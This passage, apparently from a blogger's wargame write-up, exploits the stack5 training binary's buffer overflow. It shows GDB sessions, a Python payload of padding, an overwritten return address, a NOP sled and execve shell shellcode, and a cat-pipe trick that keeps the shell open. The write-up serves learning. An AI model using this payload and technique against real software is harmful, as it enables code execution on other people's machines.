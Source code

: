 ```
(gdb) c
Continuing.
Executing new program: /bin/dash
Error in re-setting breakpoint 1: No symbol table is loaded.  Use the "file" command.
Error in re-setting breakpoint 1: No symbol "main" in current context.
Error in re-setting breakpoint 1: No symbol "main" in current context.

Program exited normally.
```

However, because computers are hard and I'm derpy, my shell was immediately exiting. Input needs to be a thing (don't quote me, but the internet appears to agree). As the shell doesn't receive any input upon spawning, it exits immediately and then our program quits straight after. I guess this is expected behaviour, but not ideal if we want to be backdooring someone's PC, right? Right.

After a bit of research (shout out LiveOverflow, Billy Ellis and many others who are way better at this than me), it turns out you can just use 'cat' without any input and pipe this into the program. I'm not 100% sure how this works, but I guess cat outputs data, and it will output nothing forever if you ask it nicely, so if we "cat" nothing into a shell - then it stays open? Logic is strong, my knowledge is not. Let's try it!

```
$(cat /tmp/stack5; cat ) | ./stack5
```

Interestingly enough, this payload doesn't want to work outside of GDB. I know from past experiences and research that GDB does some weird padding to the environment we are in which can sometimes mess with addresses and the memory layout. Perhaps our EIP overwrite address is wrong (likely).. I guess this is one of the problems with hardcoding sensitive values and using magic numbers within 'code.' One thing we could try is extending our NOP sled to give us more wiggle room when jumping to our address. If we have a wider range of choice both before and after our target address then hopefully we have a higher chance that this address exists and holds one of our NOP instructions. Once extended, we will tweak the EIP overwrite address some more to make sure we land towards the middle of this sled.

```
python -c 'print "A"*76 + "\x60\xfc\xff\xbf" + "\x90"*40 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"' > /tmp/stack5
```

```
(gdb) x/50wx $esp
0xbffffc50:	0xbffffc60	0xb7ec6165	0xbffffc68	0xb7eada75
0xbffffc60:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffffc70:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffffc80:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffffc90:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffffca0:	0x41414141	0x41414141	0x41414141	0xbffffc60
0xbffffcb0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffffcc0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffffcd0:	0x90909090	0x90909090	0x6850c031	0x68732f2f
0xbffffce0:	0x69622f68	0x50e3896e	0xb0e18953	0x0080cd0b
0xbffffcf0:	0xbffffd28	0x957fdc62	0xbf3eca72	0x00000000
0xbffffd00:	0x00000000	0x00000000	0x00000001	0x08048310
0xbffffd10:	0x00000000	0xb7ff6210
```
